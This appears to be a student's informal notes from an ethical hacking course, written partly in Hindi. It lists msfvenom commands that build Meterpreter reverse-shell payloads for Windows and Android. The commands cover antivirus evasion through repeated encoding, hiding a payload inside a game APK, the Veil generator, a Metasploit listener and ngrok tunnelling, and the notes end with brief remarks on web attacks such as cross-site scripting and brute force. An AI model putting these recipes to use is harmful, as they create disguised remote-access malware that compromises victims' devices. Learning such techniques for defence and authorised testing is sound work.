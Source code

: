 Virus total :- A tool to chech the total number of files uploaded and cehceking how many antivirus find the virus

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= 192.168.1.110 LPORT 5555 -f exe -o shell1.exe


msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST  LPORT -a x64  -e x64/zutto_dekiru -i 15 --platform windows -n 500 -f exe -o shell2.exe

-x makes it more passing the antivirus 


use exploit/multi/handler 

msfvenom --list payloads


viel is another tool used to generate the payloads 

sudo apt-get install veil 

veil 

use 1 

As you can see multiple options are loaded 

list
to list the payloads of veil 

msfvenom -p android/meterpreter/reverse_tcp LHOST= LPORT 5555 -o shell.apk


msfconsole 

evil droid 

msfvenom -x flappy_bird.apk -p android/meterpreter/reverse_tcp LHOST= LPORT 5555 -o shell.apk


./ngrok tcp 5555 



BUG Bounty Something we can do also 

HOW do we communicate to a website 

HTTP Request --> Requested 
HTTP Response --> Returned Resonse 

Usually identify the browser from which we are communicating 
authorization parameter 

Information Gathering Tools for the Website :- 
enumerate and scan 

Harvester to gather emails 

Dirb is a tool to get all the directory of the website 

search bar :- malicious code :- Cross side Scripting 

Brutforce attack send a lot of different passwords 

These vulnerabiltiyt occurs due to the poor written code 



Standard Pyaloads :- Standard Methods <--> Personal Laptops UseCase 

Kese Use Hoti hai --> Kese attacks hote hai 
